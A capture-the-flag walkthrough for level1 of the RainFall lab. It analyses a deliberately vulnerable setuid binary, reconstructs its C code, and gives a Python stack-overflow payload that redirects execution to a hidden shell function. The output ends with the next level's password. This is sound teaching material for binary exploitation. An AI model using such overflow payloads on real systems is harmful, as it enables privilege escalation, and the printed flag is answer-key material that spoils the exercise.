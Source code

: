 # Walkthrough
## Program type:
* Running the command `file ./level1` we see the file is 32-bit ELF
executable.
```
level1@RainFall:~$ file ./level1
./level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```
* Running the command `checksec --file ./level1`, we see that the stack is 
executable (NX disabled).

```
level1@RainFall:~$ checksec --file ./level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```
## Content:
* When we examine the `main` function we see that there's a call to only one
function `gets` which fills a buffer in `main`s stack frame and that's it, 
no direct call to run.
```
08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave
 8048496:	c3                   	ret
```
* The command `objdump -M intel -d ./level1` shows extra function `run`, it has two function calls ['fwrite', 'system'], `fwrite` prints the string "Good... Wait what?\n" and `system` calls "/bin/sh".

```
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
```

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

void	run()
{
	fwrite("Good... Wait what?\n", 0x13, stdout);
	system("/bin/sh");
}

int	main()
{
	char	buffer[64];

	gets(buffer);
}

```

## Solution:
* The idea is to take advantage of the function `gets` to further write on
the stack and overwrite the eip of the `main`'s stack frame, so that when
it reached the end, eip register will contain the address of the function
`run` and execute a shell with `system`.

* Now lets write the python script that will enable us to access the shell using that vulnerability:

```python
import struct

print "\x90" * 76 + struct.pack('I', 0x08048444)

```
* Running the exploit give us access to an unauthorized shell:
```
level1@RainFall:~$ (python exp.py; cat -) |  ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```